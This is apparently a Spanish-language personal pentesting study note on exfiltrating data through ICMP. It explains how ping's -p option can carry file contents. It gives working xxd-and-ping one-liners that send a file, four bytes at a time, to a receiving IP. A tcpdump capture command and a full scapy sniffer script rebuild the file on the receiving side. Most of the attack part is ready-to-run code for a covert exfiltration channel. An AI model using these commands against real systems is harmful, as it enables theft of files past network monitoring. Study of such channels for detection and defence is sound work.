 ----
- Tags: #teoria #practica 
----
# ICMP (Internet Control Menssage Protocol)

El protoclo de mansajes de control de internet o **ICMP** es parte del conjutno del protocolo IP. Es utilizado para enciar mensajes de error e información operatia. 

-----
# Exfiltración de data 

Existe una técnica muy interesante para exfiltrar data haciendo uso de la herramienta **ping** y utilidades en python como el modulo **scapy** (pip3 install scapy), esto quiere decir que seríamos capaz de envíar el contenido de todo un archivo mediante traszas icmp para posteriormente hacinedo uso de **scapy** obtener su contenido.

----
# Concepto 

La herramienta **ping** tiene un parametro el cual es **-p** que nos permite envíar un patrón personalizado que se envía en los paquetes de solicitud de ping. Mayormente se utiliza para verificar la integridad de los paquetes de respuesta recibidos. Cada vez qeu se envía un paquede de ping con un patrón personalizado, el sistema receptor debería devolver un paquete de respuesta que coincida con el patrón enviado. 

Por lo que entendemos, este patrón puede ser **personalizado**, permitiendonos así envíar valores hexadecimales que querramos. 

Por otro lado, la herramienta **xxd** nos permite pasar valores a hexadecimal, esta herramienta puede transformar a hexadecimal un archivo completo e incluso separarlo en partes, es decir, de 4 en 4, de 5 en 5, de 20 en 20, como querramos. 

Si juntamos estos dos conceptos, la idea sería transformar un archivo en hexadecimal alternandolo en valores (Recomendado de 4 en 4) para recorrer cada par de estos 4 bytes y envíar una traza icmp con el patrón que corresponde a estos 4 bytes que íran alternando del archivo que se busca leer, para que de manera posterior con un script en python, haciendo uso de **scapy** poder transformar todas estas trazas a el contenido original del archivo. 

----
# Exfiltracion de data 

- ## Envío y recibimiento de trazas icmp 

Como vimos, lo primero sería leer todo el archivo para separarlo en pares de 4 bytes y posteriormente envíar trazas icmp con el valor de estos bytes como patrón. 

```bash
xxd -p -c 4 {file_to_read} | while read line; do ping -c 1 -p $line {ip}; done 

for line in $(xxd -p -c 4 {file_to_read}); do ping -c 1 -p $line {ip}; done
```

De manera alterna, previo a realizar esto, deberíamos estar almacenando todas las trazas icmp envíadas en un archivo de captura. 

```bash
sudo tcpdump -i {interfaz} icmp -n -v -w Captura.cap
```

De esta manera estaremos en escucha de todas las trazas icmp recibidas por una determinada interfaz y estaremos alojando todas estas en un archivo llamado **Captura.cap** 

Una vez realizado esto ya tendríamos todas las trazas almacenadas listas para ser leidas y obtener la información de interez en el patrón de cada una de estas, para eso usarémos **scapy**. 

-----
- ## Scapy

Para leer un archivo con scapy podrémos hacer uso de la función **rdpcap**, posteriormente para ver cada paquete podríamos guardar el contenido arrojado de la función rdpcac en una variable la cual se convertirá en un array donde cada posición corresponde a un paquete. De esta manera pudiendo acceder a cada paquete, cada uno de estos contiene **layers** como Ether, IP, ICMP, etc. de manera que podríamos acceder a layers para acercarnos más a la información que nos interesa. Una vez que seleccionamos una layer podríamos listar con la función **ls** los atributos de las layers así como acceder a los atributos de las layers. 

```python
from scapy.all import *

packets = rdpcap("{path_file_.cap}")

# Acceder a distintos paquetes 
print(packets[0])

# Acceder a una layer de un paquete 
packets[0][ICMP]

# Listar los atributos de las layers
ls(packets[0][ICMP])

# Acceder a un atributo 
packets[0][ICMP].load
```

En la layer **ICMP** atributo **load** tendríamos los patrónes envíados a travez de cada una de las trazas icmp transmitidas. Ahora, es **importante** tener en cuenta que los paquetes van a estar repetidos como también puede ser que no contenga la layer ICMP, de manera que para poder listar los contenidos de manera correcta nos deberíamos asegurar de que los paquetes no se repitan, esto lo podríamos realizar con la función **.type** la cual devuelce 8 o 0 dependiendo de si es impar o par. Mientras que el asegurarnos de que el paquete tenga la layer ICMP lo podemos hacer con la función **.haslayer**. 

```bash
# ........

# Verificar el tipo del paquete, si es par o impar
packet[0].type

# Verificar si el primer paquete tiene una determinada layer
packet[0].haslayer(ICMP)
```

De esta manera podríamos utilizar toda esta información para realizar un script en python el cual se encargue de leer un archivo .cap y arrojarnos la información gracias a acceder a todos los patrónes de cada una de las trazas icmp alojadas en el archivo. 

```python
from scapy.all import * 
import signal, sys, readline, os

# Configuration 

readline.parse_and_bind("set editing-mode emacs")

# Ctrl + c

def ctrl_c(sig, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c) 

# Data exfiltration

def sniffTrafic(interface):
    print("\n[+] Your file content: \n")
    sniff(iface=interface, prn=readICMPpatterns)
    

def readICMPpatterns(packet): 
    
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:
        line = packet[ICMP].load[-4:].decode('utf-8')
        print(line, flush=True, end='')


if __name__ == "__main__": 
    
    if os.geteuid() == 0:
        interface = input("\n\t[!] Please insert the interface to listen: ")
        sniffTrafic(interface) 
    else: 
        print("\n\n\t[!] Please run the script as root ツ\n\n")

```